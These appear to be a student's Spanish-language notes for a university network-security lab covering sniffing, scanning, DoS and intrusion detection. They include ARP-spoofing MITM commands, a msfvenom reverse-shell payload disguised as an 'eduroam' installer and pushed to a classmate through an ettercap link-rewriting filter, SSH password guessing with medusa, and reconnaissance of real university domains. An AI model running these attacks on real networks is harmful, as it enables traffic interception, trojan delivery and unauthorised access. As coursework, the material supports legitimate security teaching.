








# Práctica 2

El objetivo de esta práctica es comprender y probar el funcionamiento de los sniffers, los ataques [D]DoS, así como diversos temas relacionados con lo que hemos llamado la trilogía (“host discovery”, “port scanning” y “fingerprinting”). La gestión de la información de auditoría es otro de los objetivos de esta práctica. En las sesiones de laboratorio se propondrán posibles herramientas a utilizar.

**a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.**[Instalar ettercap-text-only, para probarlo, se hace <protocolo>/<IP>//<puerto> es muy importante poner las dos barras]

Captura todo el tráfico que haya entre mi compañero y su puerta de enlace.

```sh
ettercap -T -i ens33 -w etter.txt -M arp:remote //10.11.48.143/ //10.11.48.1/
```


Existen dos formas de captura de tráfico remote y oneway, la primera capta todo el tráfico entre el target1 y el target2. El oneway captura sólo el tráfico saliente de target1

**b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)**

Instalamos tcpdump, este es una herramienta que permite escanear la red. Con el parámetro -i especificamos la interfaz que queremos escanear 

```sh
tcpdump -i ens33 -s 65535 -w my.pcap
```

Una vez hecho esto, pasamos el archivo my.pcap al ordenador físico, y abrimos el archivo con Wireshark:
```sh
scp lsi@10.11.48.142:/home/lsi/my.pcap .
```


- **Identifique los campos de cabecera de un paquete TCP**



- **Filtre la captura para obtener el tráfico HTTP**



- **Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)**





La página original



- **Visualice la paquetería TCP de una determinada sesión.**



- **Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.**

Creo que en pestaña de estadísticas

- **Obtenga información del tráfico de las distintas “conversaciones” mantenidas.**

Este sí que es en la pestaña de Estadísticas



- **Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes. **



**c) Obtenga la relación de las direcciones MAC de los equipos de su segmento**. [Mostrar las MAC]

```sh
root@debian:/home/lsi# nmap -sP 10.11.48.0/23

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 04:49 CEST
Nmap scan report for 10.11.48.1
Host is up (0.00064s latency).
MAC Address: DC:08:56:10:84:B9 (Alcatel-Lucent Enterprise)
Nmap scan report for 10.11.48.16
Host is up (0.00029s latency).
MAC Address: 00:50:56:97:AD:61 (VMware)
Nmap scan report for 10.11.48.17
Host is up (0.0011s latency).
MAC Address: 00:50:56:97:B7:FC (VMware)
Nmap scan report for 10.11.48.18
Host is up (0.0010s latency).
MAC Address: 00:50:56:97:9D:5C (VMware)
Nmap scan report for 10.11.48.19
*
*
*
MAC Address: 00:50:56:97:7D:A6 (VMware)
Nmap scan report for 10.11.48.142
Host is up.
Nmap done: 512 IP addresses (198 hosts up) scanned in 19.40 seconds
```


**d) Obtenga la relación de las direcciones IPv6 de su segmento**. [Mostrar IPv6 que empiecen por 2002 y asociarlas con las MAC]

```python
root@debian:/home/lsi/asociacioIpv6ToMAC# cat getIpv6AndMAC.py

import os

os.system('nmap -n -sP 10.11.48.142/23 | awk \'/Nmap scan report/{printf $5;printf " ";getline;getline;print $3;}\' >> ipv4AndMac.txt')

def ipv4_to_ipv6(ipv4):
  # Separa la dirección IPv4 en sus cuatro partes
  parts = ipv4.split('.')

  # Convierte cada parte en su representación hexadecimal
  hex_parts = [format(int(part), 'x').zfill(2) for part in parts]

  # Combina las partes en la dirección IPv6 en el formato "2002:xxxx:xxxx::1"
  ipv6 = f'2002:{hex_parts[0]}{hex_parts[1]}:{hex_parts[2]}{hex_parts[3]}::1'
  return ipv6

# Abre el archivo de entrada y crea un archivo de salida para escribir las direcciones IPv6 transformadas

with open('ipv4AndMac.txt', 'r') as input_file, open('salida.txt', 'w') as output_file:
      for line in input_file:
    ​    ipv4, mac = line.strip().split()
    ​    ipv6 = ipv4_to_ipv6(ipv4)
    
    ​    if mac != "512":
    ​        output_file.write(f'{ipv6} {mac}\n')

os.system('rm ipv4AndMac.txt')
os.system('cat salida.txt')
os.system('rm salida.txt')
```


**e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los 

servicios, conexiones y protocolos involucrados**. [usar ettercap o tcpdump]

```sh
tcpdump -i ens33 -s 65535 -w my.pcap
scp lsi@10.11.48.143:/home/lsi/my.pcap . # Lo pasamos a la máquina local para analizar con Wireshark
```


**f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima**. [xdg-open, muestra navegadores web de texto, luego ir a etter.conf y hacer que el navegador por defecto sea el elegido]

Esto de aquí deja sin conexión a la víctima, NO ES PARA LA PRÁCTICA

```sh
arpspoof -i ens33 -t 10.11.48.143 -r 10.11.48.1
# -i is used to enter the network interface name.
# -t is used to enter the target device IP address.
# -r is used to enter the default gateway IP address.
```

-----

Editar en /etc/ettercap/etter.conf:

```sh
remote_browser = w3m
```

```sh
ettercap -T -i ens33 -P remote_browser -q -M arp:remote //10.11.48.142/ //10.11.48.1/
```

**g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute**. []

EN EL ATACANTE

Creamos un payload con msfvenom que escuche en el puerto 5555 y donde la máquina que escucha será la mía:

```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.152 LPORT=5555 -f elf > eduroam-Linux-UDC.bin
```


Cambiamos los permisos del binario generado para que tenga permisos de ejecución y lo metemos dentro de un tar para que los conserve después de descargarse.

```sh
chmod +x eduroam-Linux-UDC.bin
tar -cvf eduroam-Linux-UDC.tar eduroam-Linux-UDC.bin
```

Estos archivos los ponemos en la carpeta del servidor apache para que se puedan descargar.

Luego creamos un filtro de ettercap, este filtro cambiará todos los links por el que nosotros queramos. Pero se puede hacer para que sea uno sólo en específico.

```sh
nano ett.filter

if (ip.proto == TCP && tcp.src == 80) {
​    replace("href=", "href=\"http://10.11.48.142/eduroam-Linux-UDC.tar\>”)
​    msg("Modified links.\n");
}
```

Luego compilamos el filtro con:

```sh
etterfilter ett.filter -o ig.ef
```

Y luego con ettercap spoofeamos a la víctima:
```sh
ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.143/ //10.11.48.1/
```


EN LA VÍCTIMA

Entramos a una página HTTP y vamos a cualquier link

```sh
w3m edu4java.com
```


Luego descomprimimos el tar descargado y ejecutamos el binario

```sh
tar -xvf eduroam-Linux-UDC.tar
./eduroam-Linux-UDC.bin &
```

 Se puede ejecutar en primer plano pero al usuario no le dejaría hacer nada más mientras dure la sesión que se crea.


EN EL ATACANTE

Abrimos mfsconsole, cargamos el módulo correspondiente y establecemos los en qué máquina y puerto se escuchará

```sh
mfsconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.142
set LPORT 5555
set ExitOnSession false
exploit -j -z
sessions -i 1
```


Para la sesión se usará la que se cree, se pueden ver con ```sessions -a```

**h) Haga un MITM en IPv6 y visualice la paquetería.** [ettercap + ndp]

EN EL ATACANTE

```sh
ettercap -T -i 6to4 -Q -M ndp:remote //2002:a0b:308e::1/ //2002:a0b:308e::1/
```


EN LA VÍCTIMA

```sh
w3m [http://[2002:a0b:308e::1](about:blank)]
```


**i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).** [arpon vs ettercap poisoning, víctima y atacante, tres modelos de configuración para arpon, mirar tablas arp antes y después del ataque con y sin defensa]

[GitHub de Kike](https://github.com/Adega318/uni-apuntes/blob/main/3/3.1/lsi/practica/lsi-p2.md)

**j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.** [trilogía en la red: host discovery, port scanning, os fingerprinting. Las dos últimas hacerlo sólo sobre el compañero]

- discovery

```sh
nmap -sP 10.11.48.0/23
```


- port scaning

```sh
nmap -sS 10.11.48.142
```


- fingerprintimg

```sh
nmap -O 10.11.48.142
```


- ipv6

```sh
nmap -sS -6 2002:a0b:308f::1
```


k) **Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.** [Conexiones y ancho de banda consumido por cada una de ellas (iftop, tcptrack, nethogs), vale una de ellas]

```sh
apt install iftop

tcptrack -i ens33
```


**l) Monitorizamos nuestra infraestructura.:** []

- **Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.**

Seguir tutorial de (Medium)[https://medium.com/@ismaelaguilera_/instalación-y-configuración-de-prometheus-grafana-centos8-331c0e43ccc1] y rezar por que funcione

En el puerto 9090 está prometheus y en el 9100 las métricas de node _exporte. Se accede desde web

- **Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.**

- **Importe vía grafana el dashboard 1860.**

- **En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.**

**m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direct attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.** [DoS DIrecto vs DoS reflexivo, teórico, packit]

[GitHub de Kike](https://github.com/Adega318/uni-apuntes/blob/main/3/3.1/lsi/practica/lsi-p2.md)

n) **Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?** [Ataque DoS Web, Víctima -> Servidor Apache, Atacante ->SLOWLOPSIS y SLOWHTTPTEST, qué hace y cómo lo hace. ]

[GitHub de Kike](https://github.com/Adega318/uni-apuntes/blob/main/3/3.1/lsi/practica/lsi-p2.md)

o) **Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?** [Defenderse del ataque DoS del apartado anterior, en este apartado es muy puta. No usar modevasic]

```sh
root@debian:/home/lsi# apt install libapache2-mod-security2 -y
root@debian:/home/lsi# a2enmod headers
Enabling module headers.

To activate the new configuration, you need to run:
 systemctl restart apache2

root@debian:/home/lsi# systemctl restart apache2
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended app
root@debian:/home/lsi# nano /etc/modsecurity/modsecurity.conf

<IfModule security2_module>
    # Default Debian dir for modsecurity's persistent data
    SecDataDir /var/cache/modsecurity
    # Include all the *.conf files in /etc/modsecurity.
    # Keeping your local configuration in that directory
    # will allow for an easy upgrade of THIS file and
    # make your life easier
    IncludeOptional /etc/modsecurity/*.conf
    Include /etc/modsecurity/rules/*.conf
    # Include OWASP ModSecurity CRS rules if installed
    #IncludeOptional /usr/share/modsecurity-crs/*.load
</IfModule>

root@debian:/home/lsi# a2enmod security2
root@debian:/home/lsi# systemctl restart apache2

# Para deshabilitar módulos usar a2dismod <nombreDelMódulo>
```


**p) Buscamos información.:**[Servidores de correo y estafetas]

```sh
apt install dnsutils -y
```


- **Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña.**

```sh
root@debian:/home/lsi# nslookup -q=A udc.es
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.8.12.48#53: timed out

Server:     10.8.12.50
Address:    10.8.12.50#53
Non-authoritative answer:
Name:  udc.es
Address: 193.144.53.84
```

```sh
root@debian:/home/lsi# nslookup -q=AAAA udc.es
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.8.12.48#53: timed out

Server:     10.8.12.50
Address:    10.8.12.50#53
Non-authoritative answer:
Name:  udc.es
Address: 2001:720:121c:e000::203
```

- **Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.**

```sh
root@debian:/home/lsi# nslookup -q=NS udc.es

;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.8.12.48#53: timed out

Server:     10.8.12.50
Address:    10.8.12.50#53
Non-authoritative answer:
udc.es nameserver = sun.rediris.es.
udc.es nameserver = chico.rediris.es.
udc.es nameserver = zape.udc.es.
udc.es nameserver = zipi.udc.es.

Authoritative answers can be found from:
sun.rediris.es internet address = 199.184.182.1
chico.rediris.es    internet address = 162.219.54.2
zape.udc.es   internet address = 193.144.52.2
zape.udc.es   has AAAA address 2001:720:121c:e000::102
zipi.udc.es   internet address = 193.144.48.30
zipi.udc.es   has AAAA address 2001:720:121c:e000::101
```


```sh
root@debian:/home/lsi# nslookup -q=MX udc.es

;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.10.102.27#53: timed out
;; communications error to 10.8.12.48#53: timed out

Server:     10.8.12.50
Address:    10.8.12.50#53
Non-authoritative answer:
udc.es mail exchanger = 10 udc-es.mail.protection.outlook.com.

Authoritative answers can be found from:
udc-es.mail.protection.outlook.com   internet address = 52.101.73.6
udc-es.mail.protection.outlook.com   internet address = 52.101.73.11
udc-es.mail.protection.outlook.com   internet address = 52.101.73.30
udc-es.mail.protection.outlook.com   internet address = 52.101.68.0
udc-es.mail.protection.outlook.com   internet address = 52.101.68.18
udc-es.mail.protection.outlook.com   internet address = 52.101.68.32
udc-es.mail.protection.outlook.com   internet address = 52.101.68.36
```

- **¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?. En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.**

Existen dos formas de hacer 

```sh
dig axfr udc.es @zipi.udc.es
; <<>> DiG 9.18.19-1~deb12u1-Debian <<>> axfr udc.es @zipi.udc.es
;; global options: +cmd
; Transfer failed.

root@debian:/home/lsi# nslookup -type=AXFR udc.es zipi.udc.es
Server:     zipi.udc.es
Address:    193.144.48.30#53
** server can't find udc.es: REFUSED
; Transfer failed.
```

No deja hacer una transferencia de zona, ya que lo más probable es que esté configurado para que no deje hacer transferencias de zona a máquinas no autorizadas

Para obtener todos los nombre posibles se debe ejecutar el comando:

```sh
nmap -sL 193.144.53.84/20 | grep udc.es

Nmap scan report for alvedro1.udc.es (193.144.48.11)
Nmap scan report for alvedro2.udc.es (193.144.48.12)
Nmap scan report for filemon.udc.es (193.144.48.15)
Nmap scan report for mortadelo.udc.es (193.144.48.22)
Nmap scan report for zipi.udc.es (193.144.48.30)
Nmap scan report for pedrido.udc.es (193.144.48.77)
Nmap scan report for zape2.udc.es (193.144.48.100)
Nmap scan report for listas2.udc.es (193.144.48.105)
Nmap scan report for smtp3.udc.es (193.144.48.106)
Nmap scan report for smtp2.udc.es (193.144.48.107)
Nmap scan report for mx2.udc.es (193.144.48.108)
Nmap scan report for listas.udc.es (193.144.48.109)
Nmap scan report for inef130.udc.es (193.144.48.130)
Nmap scan report for inef131.udc.es (193.144.48.131)
*
*
*
```

- **¿Qué gestor de contenidos se utiliza en [www.usc.es?**](http://www.usc.es?**)

```sh
root@debian:/home/lsi# whatweb www.usc.es

http://www.usc.es [302 Found] Apache, Country[UNITED STATES][US], HTTPServer[Apache], IP[52.157.220.132], RedirectLocation[https://www.usc.gal/], Title[302 Found], X-XSS-Protection[1; mode=block]

https://www.usc.gal/ [301 Moved Permanently] Apache, Content-Language[gl], Country[UNITED STATES][US], HTML5, HTTPServer[Apache], IP[52.157.220.132], Meta-Refresh-Redirect[https://www.usc.gal/gl], RedirectLocation[https://www.usc.gal/gl], Strict-Transport-Security[max-age=31536000; includeSubDomains; preload], Title[Redirecting to https://www.usc.gal/gl], UncommonHeaders[x-drupal-route-normalizer,x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]

https://www.usc.gal/gl [200 OK] Apache, Content-Language[gl], Country[UNITED STATES][US], HTML5, HTTPServer[Apache], IP[52.157.220.132], MetaGenerator[Drupal 9 (https://www.drupal.org)], Script[application/json], Strict-Transport-Security[max-age=31536000; includeSubDomains; preload], Title[Inicio | Universidade de Santiago de Compostela], UncommonHeaders[x-content-type-options,link,x-dns-prefetch-control], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```

La página de la USC utiliza como gestor de contenidos Drupal.

**q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.**

```sh
nmap -A 10.11.48.1
```

**r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.**[Usar medusa o hydra, un fichero con un usuario y otro con diez contraseñas donde la última es la correcta]

```sh
medusa -h 10.11.50.143 -u lsi -P passwords.txt -M ssh -f
```

**s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.** [NO APAGAR OSSEC, NO HACER CAMBIOS DE FORMA MANUAL]

[GitHub de Kike](https://github.com/Adega318/uni-apuntes/blob/main/3/3.1/lsi/practica/lsi-p2.md)

**t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.**

[GitHub de Kike](https://github.com/Adega318/uni-apuntes/blob/main/3/3.1/lsi/practica/lsi-p2.md)